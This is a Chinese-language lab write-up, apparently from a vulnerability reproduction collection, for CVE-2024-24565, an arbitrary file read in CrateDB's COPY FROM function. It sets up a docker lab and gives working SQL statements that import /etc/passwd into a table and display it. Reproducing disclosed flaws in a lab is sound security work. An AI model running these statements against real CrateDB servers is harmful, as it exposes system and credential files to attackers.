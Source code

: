 # CVE-2024-24565 CrateDB数据库任意文件读取漏洞

#### **漏洞描述**

CrateDB是一个开源的分布式SQL数据库，它使得实时存储和分析大量数据变得非常简单。CrateDB数据库中有一个COPYFROM函数，用于将文件数据导入到数据库表中。该功能有一个缺陷，通过身份验证的攻击者可以使用COPY FROM功能将任意文件内容导入到数据库表中。从而造成信息泄露。

官方文档参考

[CrateDB Database Product Overview](https://cratedb.com/product)

[Data manipulation — CrateDB: Reference](https://cratedb.com/docs/crate/reference/en/5.6/general/dml.html#dml-importing-data)

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-24565
- https://blog.csdn.net/shelter1234567/article/details/136191448

#### **漏洞环境**

执行如下命令启动一个CrateDB 5.6.1

```
docker compose up 
```

服务启动后，访问`http://your-ip:4200`

![https://img-blog.csdnimg.cn/direct/494f9a174ea94d969a9e683d6fa1cd05.png](https://img-blog.csdnimg.cn/direct/494f9a174ea94d969a9e683d6fa1cd05.png)

如果出现，下面的报错

[1]: max virtual memory areas vm.max_map_count [65530] is too low, increase to at least [262144] by adding vm.max_map_count = 262144 to /etc/sysctl.conf or invoking sysctl -w vm.max_map_count=262144

执行以下命令来临时修改 vm.max_map_count 的值：

```shell
sudo sysctl -w vm.max_map_count=262144
```



#### 漏洞复现

依次执行如下命令

```sql
CREATE TABLE info_leak(info_leak STRING);
COPY info_leak FROM '/etc/passwd' with (format='csv', header=false);
SELECT * FROM info_leak;
```

————————————————

1.CREATE TABLE info_leak(info_leak STRING);

![](https://img-blog.csdnimg.cn/direct/12a001cc341d4f0183c51a60918b96f2.png)

2.COPY info_leak FROM '/etc/passwd' with (format='csv', header=false);

![](https://img-blog.csdnimg.cn/direct/ef0fffbfda87454d972ea95738b8cfd0.png)

3.SELECT * FROM info_leak;

![](https://img-blog.csdnimg.cn/direct/aed691b4cd2a476e974fcb7146c98a59.png)

成功查看到etc/passwd文件 
